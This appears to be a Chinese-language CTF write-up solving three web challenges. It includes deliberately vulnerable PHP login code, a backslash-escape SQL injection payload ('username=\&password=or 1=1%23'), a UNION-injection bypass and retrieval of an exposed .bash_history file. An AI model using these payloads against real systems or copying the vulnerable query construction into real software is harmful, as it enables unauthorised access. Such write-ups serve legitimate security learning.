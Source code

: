 ```
```
# sql injection 4
```bash
#GOAL: login as admin,then get the flag;
error_reporting(0);
require 'db.inc.php';

function clean($str){
	if(get_magic_quotes_gpc()){
		$str=stripslashes($str);
	}
	return htmlentities($str, ENT_QUOTES);
}

$username = @clean((string)$_GET['username']);
$password = @clean((string)$_GET['password']);

$query='SELECT * FROM users WHERE name=\''.$username.'\' AND pass=\''.$password.'\';';
$result=mysql_query($query);
if(!$result || mysql_num_rows($result) < 1){
	die('Invalid password!');
}

echo $flag;
```
构造 ？username=\&password=or 1=1%23 
后台的查询语句为：
```bash
SELECT * FROM users WHERE name='\' AND pass=' or 1= 1#';
```
# 综合题
通过解密，知道有`1bc29b36f623ba82aaf6724fd3b16718.php`文件，访问，有提示说tip在我的脑袋，查看返回的头部请求，注意到tip:history of bash,百度可知其用法，访问 
```bash
http://teamxlc.sinaapp.com/web3/b0b0ad119f425408fc3d45253137d33d/.bash_history
```
得到flag的下载路径。
# sql注入2
```bash
<?php
if($_POST[user] && $_POST[pass]) {
   mysql_connect(SAE_MYSQL_HOST_M . ':' . SAE_MYSQL_PORT,SAE_MYSQL_USER,SAE_MYSQL_PASS);
  mysql_select_db(SAE_MYSQL_DB);
  $user = $_POST[user];
  $pass = md5($_POST[pass]);
  $query = @mysql_fetch_array(mysql_query("select pw from ctf where user='$user'"));
  if (($query[pw]) && (!strcasecmp($pass, $query[pw]))) {
      echo "<p>Logged in! Key: ntcf{**************} </p>";
  }
  else {
    echo("<p>Log in failure!</p>");
  }
}
?>

```
[解法](https://wenku.baidu.com/view/3f3e03c84431b90d6c85c7fb.html)
主要就是通过union 联合查询，将从数据库返回的值为空，自己构造数据库返回的值。
